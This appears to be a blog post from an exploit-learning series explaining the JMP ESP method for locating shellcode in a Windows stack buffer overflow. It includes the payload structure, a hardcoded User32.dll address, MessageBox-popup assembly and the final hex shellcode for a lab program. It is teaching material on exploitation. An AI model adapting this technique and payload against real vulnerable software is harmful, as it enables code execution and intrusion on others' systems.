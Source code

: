 ```yaml
---
title: Exploit Learning Notes 002 JMP ESP
description: ShellCode's Dynamic Positioning Method - JMP ESP Method
date: 2020-10-19 18:20:00+0800
categories:
    - Exploit
tags:
    - Windows
    - ShellCode
---
```


> [Click here to download this article with executable program, shellcode file](./exploit-study-02.zip)

Source: [Moeomu's blog](/posts/exploit-learning-notes-002-jmp-esp/)

## Stack space shifting

ShellCode is often dynamic in memory and is not directly filled with a fixed value  
That is, the stack space address of the buffer array in the previous article is not always a fixed value  
When the CPU executes to this address, it may trigger an invalid instruction exception and crash the program and ShellCode will not run.

### Principle

Find the address of a `JMP ESP` instruction from the loaded system DLL and use this address to flood the return address  
This allows for precise location of the shellcode and adapts to the dynamic changes in the stack space  
The stack address is small and large, the CPU execution order is from small address to large address, stack flooding is also from small address to large address  
This allows ShellCode to be dynamically addressed by flooding the previous section with meaningless data and flooding the start of ShellCode at `[ESP]`.

### ShellCode writing

#### structure

Useless data + `JMP ESP` address (this address is exactly flooded to the function return address) + command code (for testing, MessageBox popup)

> Description.
>
> - `retn` will jump to `JMP ESP` afterwards, then ESP + 4
> - `JMP ESP` will jump to the command code exactly after

#### necessary data

- `JMP ESP` address: located in User32.dll `0x77D29353` (no need to be the original command, just search the binary `0xFFE4`)
- Garbage data size: 52 Byte = Buffer(44 Byte) + authenticated(4 Byte) + EBP(4 Byte)

#### Final Code

> Here is the command code to be executed

```x86asm
33DB                      xor ebx,ebx
53                        push ebx
68 6D756F6F               push 0x6F6F756D
68 4D6F656F               push 0x6F656F4D
8BC4                      mov eax,esp
53                        push ebx
50                        push eax
50                        push eax
53                        push ebx
B8 EA07D577               mov eax,user32.MessageBoxA
FFD0                      call eax
B8 FACA817C               mov eax,kernel32.ExitProcess
FFD0                      call eax
```

> Final ShellCode

```c
34 33 32 31 34 33 32 31  34 33 32 31 34 33 32 31
34 33 32 31 34 33 32 31  34 33 32 31 34 33 32 31
34 33 32 31 34 33 32 31  34 33 32 31 34 33 32 31
34 33 32 31 53 93 D2 77  33 DB 53 68 6D 75 6F 6F
68 4D 6F 65 6F 8B C4 53  50 50 53 B8 EA 07 D5 77
FF D0 B8 FA CA 81 7C FF  D0
```
